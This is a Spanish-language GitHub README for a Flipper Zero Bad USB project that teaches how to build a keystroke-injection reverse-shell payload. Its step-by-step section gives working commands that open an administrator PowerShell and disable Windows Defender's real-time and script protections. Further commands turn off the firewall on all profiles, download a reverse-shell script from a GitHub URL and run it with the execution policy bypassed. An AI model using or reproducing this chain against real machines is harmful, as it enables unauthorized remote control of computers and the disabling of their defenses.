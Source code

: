 # REVERSE-ZERO

![imagen](https://github.com/90l3m0np13/Reverse-Zero/blob/main/im%C3%A1genes/Designer.jpeg)



# Descripción

Reverse-Zero es un proyecto de investigación y desarrollo en el ámbito del hacking, centrado en la exploración de las capacidades de programación del Flipper Zero. En particular, se enfoca en la aplicación Bad USB, que permite ejecutar cargas útiles automatizadas a través de un dispositivo USB.

Este proyecto representa mi primera incursión en el mundo del hacking, donde he investigado a fondo el uso de PowerShell y otros lenguajes de scripting para aprovechar las funcionalidades del Flipper Zero.

# Características

Automatización de scripts para Bad USB en Flipper Zero.

Desarrollo de payloads personalizados con PowerShell.

Análisis de seguridad y pruebas de penetración controladas.

# Requisitos

Para utilizar este proyecto, necesitarás:

Un dispositivo Flipper Zero.

Un editor de texto (VS Code, Notepad++, etc.).

Conocimientos básicos de PowerShell.


# Instalación y uso.

1.  Clonar el repositorio
   ```sh g
    git clone https://github.com/90l3m0np13/Reverse-Zero/blob/main/REVERSE_SHELL.txt
   ```
2.  Abre el archivo en un editor de texto y cambia los apartados de IP y Puerto por los de tu máquina atacante.
3.  Carga los scrips en tu Flipper Zero


     - Copia los archivos al directorio correspondiente en la memoria del Flipper.
     - Ejecuta el payload desde la aplicación Bad USB.

# Crea tu ReverseShell desde 0



1. Crea una reverseshell desde 0, o hazla en la página https://www.revshells.com/. 





1. Crea un archivo TXT compuesto por DELAYS, ENTERS Y STRINGS adecuandolos a tu gusto. (Tienes el ejemplo en el proyecto de una reverseshell creada por mi).





1.  DELAY = La función que hace que el procesador espere "delay(1000); //provoca un retardo de 1000ms = 1 segundo".
2.  ENTER = Simula la acción de la tecla Intro del teclado.
3.  STRING = Se trata de una secuencia de caracteres usados para representar el texto.

1.  Sabiendo esto, vamos a empezar a programar nuestro txt.





 1.  Con este comando en String abrimos la pestaña de Ejecutar.
      ```sh g
      GUI r
      ```



 1.  Abrimos Powershell.
      ```sh g
      powershell
      ```
 1.  Lo ejecutamos como administrador.
      ```sh g
      CTRL-SHIFT ENTER
      ```

 1.  Le damos a que sí cuando nos pregunte si queremos abrirlo como administrador.
      ```sh g
      ALT s
      ```
 1.  Utilizamos este String para para deshabilitar el Windows Defender.
      ```sh g
      powershell -command 'Set-MpPreference -DisableRealtimeMonitoring $true -DisableScriptScanning $true -DisableBehaviorMonitoring $true -DisableIOAVProtection $true -  
      DisableIntrusionPreventionSystem $true'
      ```
 1.  Desactivamos el Firewall.
      ```sh g
      Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
      ```
 1.  Descargamos el ReverseShell con el String Invoke-WebRequest (Yo en mi caso lo tengo alojado en github).
      ```sh g
      Invoke-WebRequest -Uri "https://raw.githubusercontent.com/alvaroarenas69/scrips-powershell/main/reverseshell.ps1" -OutFile "reverseshell.ps1"
      ```
 1.  Ejecutamos el ReverseShell.
      ```sh g
      powershell -ExecutionPolicy Bypass -File ".\reverseshell.ps1"
      ```
 1.  Una vez creado el txt, lo guardamos. Conectamos el Flipper al PC mediante la aplicación qflipper, que podemos descargar en el siguiente      enlace: https://flipperzero.one/update
 2.  Dentro de la aplicación, buscamos el fichero Read File y pegamos el txt en la carpeta BADUSB.

    
     ![imagen](https://github.com/90l3m0np13/Reverse-Zero/blob/main/im%C3%A1genes/badusb.png)
 4.  Y por último, solo queda ejecutar el Scrip que hemos creado desde el flipper zero.


















